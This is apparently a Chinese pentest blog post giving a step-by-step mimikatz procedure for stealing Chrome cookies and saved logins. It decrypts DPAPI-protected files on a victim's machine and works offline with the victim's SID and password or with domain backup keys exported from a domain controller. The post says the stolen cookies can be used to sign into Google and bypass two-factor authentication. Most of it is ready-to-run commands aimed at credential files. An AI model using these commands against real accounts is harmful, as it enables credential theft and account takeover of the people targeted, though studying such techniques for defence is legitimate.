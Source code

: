 ```yaml
---
title: 用mimikatz获取chrome的用户数据
date: 2019-07-07 15:45:29
tags: 
- pentest
- sec
---
```



### 1.在线获取

必须要登录到用户的计算机上

导出`cookies`

`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\cookies"`

![cookies](/img/onlinecookies.png)

导出登录凭证
`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\login data" /unprotect`

### 2.离线获取

有几点要求，需要知道目标的SID和密码，或者有域的根密钥

如果没有正确的masterkey，解密的时候会出现错误，如果有足够的权限，也可以使用mimikatz的`sekurlsa::dpapi`命令来获取masterkey，当然我们要离线的话，就不能把mimikatz上传到服务器

![decerror](/img/decrypterror.png)

SID和masterkey在用户的`%appdata%`目录下

![sidkey](/img/sidandmasterkey.png)

使用SID配合密码导入masterkey，然后对cookies进行解密，这样解出来的masterkey是默认导入了mimikatz的缓存里，解密时候不需要指定masterkey
`dpapi::masterkey /in:"1853c496-c182-49eb-aa4e-79a24e9bd90c" /SID:S-1-5-21-2104814972-2348396718-1065983387-1653 /password:YourPassword /unprotect`

![masterkey](/img/masterkey.png)

`dpapi::chrome /in:"cookies"`
![decryptcookie](/img/decryptcookie.png)

获得了chrome中保存的cookie，只要用户在登录google的时候，选择了记住该设备，那么可以利用解密出来的cookie进行登录，绕过google的双因素验证


使用mimikatz导出的backupkey来进行解密，导出的4个文件中最重要的为.pvk文件
`lsadump::backupkeys /export /system:dc.computer.com`

![backupkeys](/img/backupkeys.png)

使用.pvk文件进行解密masterkey，并解出cookies
![pvk1](/img/pvkdec.png)


![pvk2](/img/pvkcookies.png)


### 参考文章

https://ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++



